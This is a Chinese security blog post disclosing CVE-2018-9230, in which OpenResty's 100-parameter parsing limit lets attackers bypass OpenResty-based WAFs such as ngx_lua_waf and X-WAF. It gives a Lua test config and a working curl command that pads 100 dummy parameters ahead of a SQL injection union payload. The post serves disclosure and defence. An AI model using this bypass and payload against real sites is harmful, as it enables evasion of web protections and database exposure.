





# 打破基于 OpenResty 的 WEB 安全防护（CVE-2018-9230） - Bypass - 博客园

> 原文：[`www.cnblogs.com/xiaozi/p/9132756.html`](https://www.cnblogs.com/xiaozi/p/9132756.html)

原文首发于安全客，原文链接：[`www.anquanke.com/post/id/103771`](https://www.anquanke.com/post/id/103771)

### 0x00 前言

​ OpenResty® 是一个基于 Nginx 与 Lua 的高性能 Web 平台，其内部集成了大量精良的 Lua 库、第三方模块以及大多数的依赖项。

OpenResty 官网：[`openresty.org`](https://openresty.org)

漏洞编号：CVE-2018-9230

漏洞简介：OpenResty 通过 ngx.req.get_uri_args、ngx.req.get_post_args 函数进行 uri 参数获取，忽略参数溢出的情况，允许远程攻击者绕过基于 OpenResty 的安全防护，影响多款开源 WAF。

影响版本：OpenResty 全版本

### 0x01 环境搭建

运行环境：CentOS6

源码版本：[`openresty.org/download/openresty-1.13.6.1.tar.gz`](https://openresty.org/download/openresty-1.13.6.1.tar.gz) （官网最新版）

### 0x02 漏洞详情

#### A、uri 参数获取

首先看一下官方 API 文档，获取一个 uri 有两个方法：ngx.req.get_uri_args、ngx.req.get_post_args，二者主要的区别是参数来源有区别，ngx.req.get_uri_args 获取 uri 请求参数，ngx.req.get_post_args 获取来自 post 请求内容。

测试用例：

```
server {
   listen 80;
   server_name  localhost;
   location /test {
       content_by_lua_block {
           local arg = ngx.req.get_uri_args() for k,v in pairs(arg) do ngx.say("[GET ] key:", k, " v:", v)
           end
           ngx.req.read_body()
           local arg = ngx.req.get_post_args() for k,v in pairs(arg) do ngx.say("[POST] key:", k, " v:", v)
           end
       }
   }
}
```

输出测试：


#### B、参数大小写

当提交同一参数 id，根据接收参数的顺序进行排序，

可是当参数 id，进行大小写变换，如变形为 Id、iD、ID，则会被当做不同的参数。


这里，介绍参数大小写，主要用于进一步构造和理解测试用例。

#### C、参数溢出

如果当我们不段填充参数，会发生什么情况呢，为此我构造了一个方便用于展示的测试案例，a0-a9，10*10,共 100 参数，然后第 101 个参数添加 SQL 注入 Payload，我们来看看会发生什么？

测试用例：

curl '127.0.0.1/test? a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0& a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1& a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2& a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3& a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4& a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5& a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6& a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7& a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8& a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9& id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata'

输出结果：



可以看到，使用 ngx.req.get_uri_args 获取 uri 请求参数，只获取前 100 个参数，第 101 个参数并没有获取到。继续构造一个 POST 请求，来看一下：



使用 ngx.req.get_post_args 获取的 post 请求内容，也同样只获取前 100 个参数。

检查这两个函数的文档，出于安全原因默认的限制是 100，它们接受一个可选参数，最多可以告诉它应该解析多少 GET / POST 参数。但只要攻击者构造的参数超过限制数就可以轻易绕过基于 OpenResty 的安全防护，这就存在一个 uri 参数溢出的问题。

综上，通过 ngx.req.get_uri_args、ngx.req.get_post_args 获取 uri 参数，当提交的参数超过限制数（默认限制 100 或可选参数限制），uri 参数溢出，无法获取到限制数以后的参数值，更无法对攻击者构造的参数进行有效安全检测，从而绕过基于 OpenResty 的 WEB 安全防护。

### 0x03 影响产品

基于 OpenResty 构造的 WEB 安全防护，大多数使用 ngx.req.get_uri_args、ngx.req.get_post_args 获取 uri 参数，即默认限制 100，并没有考虑参数溢出的情况，攻击者可构造超过限制数的参数，轻易的绕过安全防护。

基于 OpenResty 的开源 WAF 如：ngx_lua_waf、X-WAF、Openstar 等，均受影响。

#### A、ngx_lua_waf

ngx_lua_waf 是一个基于 lua-nginx-module(openresty)的 web 应用防火墙

github 源码：[`github.com/loveshell/ngx_lua_waf`](https://github.com/loveshell/ngx_lua_waf)

**拦截效果图：**

****

**利用参数溢出 Bypass：**

****

#### B、X-WAF

X-WAF 是一款适用中、小企业的云 WAF 系统，让中、小企业也可以非常方便地拥有自己的免费云 WAF。

官网：[`waf.xsec.io`](https://waf.xsec.io)

github 源码：[`github.com/xsec-lab/x-waf`](https://github.com/xsec-lab/x-waf)

**拦截效果图：**

****

**利用参数溢出 Bypass：**

****

**本文由 Bypass 原创发布，原文链接：https://www.cnblogs.com/xiaozi/p/9132756.html  欢迎分享本文，转载请保留出处。**

关于我：一个网络安全爱好者，致力于分享原创高质量干货，欢迎关注我的个人微信公众号：Bypass--，浏览更多精彩文章。

